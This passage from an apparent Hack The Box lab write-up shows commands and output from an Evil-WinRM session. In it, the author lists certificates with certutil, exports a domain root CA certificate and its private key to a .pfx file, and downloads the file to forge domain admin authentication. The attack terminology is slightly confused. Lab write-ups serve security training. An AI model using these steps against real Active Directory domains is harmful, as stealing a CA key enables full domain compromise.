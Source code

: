 
But we can also access certificates that previously we didn’t have so we can start by checking which ones are available:
```
*Evil-WinRM* PS C:\Users\Ryan.K> certutil -Store My
```

This certificate is passwordless and is self-signed which means this is the `root CA` of the domain, so we can perform a Golden Ticket attack.
Exporting the certificate:
```
*Evil-WinRM* PS C:\Users\Ryan.K> mkdir /temp
*Evil-WinRM* PS C:\Users\Ryan.K> certutil -exportPFX my "Certificate-LTD-CA" C:\temp\ca.pfx
my "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file C:\temp\ca.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.
```

We will try to export the certificate and its private key (issued in the `ESC3` attack) into the `\temp` folder to download the `.pfx` file. Once we have the `.pfx` we can import it with tools like `Certipy` or `Rubeus` and authenticate as the target user (e.g., `Ryan.K` or a `Domain Admin`).
```
*Evil-WinRM* PS C:\Users\Ryan.K> cd \temp
*Evil-WinRM* PS C:\temp> dir


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/2/2025   3:12 AM           2675 ca.pfx


*Evil-WinRM* PS C:\temp> download ca.pfx
                                        
Info: Downloading C:\temp\ca.pfx to ca.pfx
                                        
Info: Download successful!
```
